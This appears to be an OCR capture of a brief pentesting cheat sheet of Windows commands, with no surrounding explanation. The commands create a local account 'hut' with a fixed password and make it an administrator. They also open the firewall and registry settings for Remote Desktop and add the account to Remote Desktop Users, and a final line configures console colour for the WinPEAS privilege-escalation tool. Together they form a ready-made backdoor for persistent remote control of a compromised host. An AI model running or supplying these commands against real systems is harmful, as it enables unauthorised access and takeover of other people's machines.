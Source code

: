 ```powershell
net user hut password123! /add;
net localgroup Administrators hut /add;
netsh advfirewall firewall set rule group="remote desktop" new enable=yes;
net localgroup "Remote Desktop Users" "hut" /add;
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f;
```

```powershell
# Activate RDP through PowerShell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server'-name "fDenyTSConnections" -Value 0
```

---
### Color Output - WinPEAAS - PowerShell - CMD
```
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```